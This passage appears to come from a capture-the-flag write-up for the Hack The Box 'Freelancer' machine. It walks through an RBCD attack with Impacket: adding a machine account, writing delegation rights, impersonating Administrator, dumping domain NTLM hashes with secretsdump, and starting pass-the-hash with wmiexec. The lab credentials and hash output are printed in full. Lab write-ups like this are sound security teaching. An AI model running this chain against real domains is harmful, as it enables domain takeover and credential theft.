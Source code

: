 ![](/assets/images/Freelancer/Pasted%20image%2020241005213510.png)

So I can create a new computer that delegates to the real computer and be able to get a TGT for Administrator and dump all hashes from the DC:

```bash
❯ addcomputer.py -computer-name 'GABRI-PC$' -computer-pass 'gabri123$!' -dc-host dc.freelancer.htb -domain-netbios freelancer.htb 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account GABRI-PC$ with password gabri123$!.
❯ rbcd.py -delegate-from 'GABRI-PC$' -delegate-to 'DC$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] GABRI-PC$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     GABRI-PC$    (S-1-5-21-3542429192-2036945976-3483670807-11601)
❯ getST.py -spn 'cifs/dc.freelancer.htb' -impersonate 'Administrator' 'freelancer.htb/GABRI-PC$:gabri123$!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
```

Now I can dump hashes with secretsdump:

```bash
❯ secretsdump.py -dc-ip 10.10.11.5 -k -no-pass dc.freelancer.htb
/usr/local/bin/secretsdump.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.12.0', 'secretsdump.py')
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

<..SNIP..>
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d238e0bfa17d575038efc070187a91c2:::
freelancer.htb\mikasaAckerman:1105:aad3b435b51404eeaad3b435b51404ee:e8d62c7d57e5d74267ab6feb2f662674:::
sshd:1108:aad3b435b51404eeaad3b435b51404ee:c1e83616271e8e17d69391bdcd335ab4:::
```

And execute command in the victim machine using wmiexec:

```bash
❯ wmiexec.py -hashes ':0039318f1e8274633445bce32ad1a290' dc.freelancer.htb/Administrator@10.10.11.5
/usr/local/bin/wmiexec.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
```